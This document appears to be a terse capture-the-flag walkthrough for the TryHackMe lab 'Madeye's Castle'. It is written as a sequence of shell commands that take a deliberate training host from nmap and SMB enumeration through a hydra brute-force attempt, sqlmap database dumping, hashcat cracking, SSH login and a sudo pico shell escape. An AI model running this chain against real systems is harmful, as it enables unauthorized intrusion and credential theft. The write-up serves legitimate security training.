 # Madeye's Castle - Medium

```shell
sudo vim /etc/hosts
#add castle.thm

nmap -T4 -p- -A -Pn -v castle.thm

smbclient -L \\\\castle.thm
#list all shares

smbclient \\\\castle.thm\\sambashare
#access sambashare

mget *
#get all files
#go through files

cat spellnames.txt

cat .notes.txt

sudo vim /etc/hosts
#add hogwartz-castle.thm

#bruteforce login
hydra -l harry -P /usr/share/wordlists/rockyou.txt hogwartz-castle.thm http-post-form "/login:user=harry&password=^PASS^:Incorrect Username or Password"
#does not work

#check for injection
#intercept and save login request with Burp Suite
sqlmap -r hogwartz.req --level 5

#manual injection gives us response
#save this request
sqlmap -r hogwartz2.req --level 5 --risk 3 --dump-all --threads 10
#detects SQLite

#attempt manual SQLi with burp suite
#use SQLite payload and get hashes

#crack the hash
#use best64 rule
hashcat -a 0 -m 1700 harryhash.txt /usr/share/wordlists/rockyou.txt -r /usr/share/doc/hashcat/rules/best64.rule

#login using creds

ssh harry@castle.thm

cat user1.txt

sudo -l
#we can run /usr/bin/pico as hermonine

#GTFObins exploit for 'pico'
sudo -u hermonine /usr/bin/pico
#Ctrl+R, Ctrl+X
reset; sh 1>&0 2>&0

#now we have shell as hermonine
bash
```